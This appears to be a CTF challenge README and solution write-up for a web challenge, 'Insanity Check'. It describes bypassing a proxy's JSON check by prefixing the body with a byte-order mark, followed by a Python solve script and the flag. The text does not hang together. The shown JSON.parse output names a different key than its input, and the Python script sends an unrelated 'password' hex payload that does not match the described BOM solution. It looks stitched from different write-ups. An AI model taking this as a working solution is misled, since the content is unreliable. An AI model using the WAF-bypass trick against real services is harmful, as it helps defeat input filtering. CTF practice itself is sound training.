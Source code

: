# Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
You should make a JSON that satisfies the following conditions:

* The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `dammilaflag`.
* The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.
  
In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:
```js
\ufeff{"dammilaflag": true}
```

Web frameworks often allow JSON values to be added a BOM at the beginning. For example, Fastify and Express check a BOM at:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

On the other hand, JSON.parse does not allow a BOM:
```js
> JSON.parse('{"dammilaflag": true}')
{ givemeflag: true }
> JSON.parse('\ufeff{"dammilaflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"dammil"... is not valid JSON
```

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
